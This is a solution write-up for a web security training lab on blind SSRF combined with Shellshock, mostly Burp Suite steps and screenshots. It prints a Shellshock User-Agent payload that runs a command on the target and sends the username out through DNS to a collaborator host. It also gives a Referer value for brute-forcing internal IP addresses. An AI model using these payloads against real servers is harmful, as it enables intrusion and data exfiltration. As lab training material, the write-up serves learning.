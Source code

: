 # Lab: Blind SSRF with Shellshock exploitation

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/7d8b52b6-eeec-4c5a-ae7a-f1f195105cd3)

## Solution

First install an Extension called collaborator Everywhere from Bapps

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/ab3c1ea3-45b6-444e-b2b0-85e377c3a93d)

Add the domain of the lab to Burp Suite's target scope, so that Collaborator Everywhere will target it.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/2ced1fec-19a1-4d61-a36e-c44f089aa89f)

Browse the site. When you load a product page, it triggers an HTTP interaction with Burp Collaborator, via the Referer header. HTTP interaction contains your User-Agent string within the HTTP request.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/43922331-0a6a-4fac-b669-16d4f19b49ab)

Send the product reques to burp Intruder.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/bd694f52-6030-4049-8779-f7e8af910824)

Go to burp collaborator and click on copyy to clipboard to get subdomain. Change the `User-Agent` string to `() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN`. Change the `Referrer header` to `http://192.168.0.§1§:8080` where will brute the force the final value of the IP.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/c342e2b4-a3d2-4c1a-8321-221906e37120)

In payloads select numbers from 1 to 255 with a step of 1 and start attack.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/a16e6510-1774-4775-93f1-53e8c855fdd6)

After the attack some DNS interaction will be seen in burp collaborator and it will contain the name of the user.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8fe34732-73c7-4387-a325-fda1e40dc4a3)

Submit the name of the user in the submit solution section of the lab to finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/99704c70-fca8-4660-8f58-5af7bdce77af)
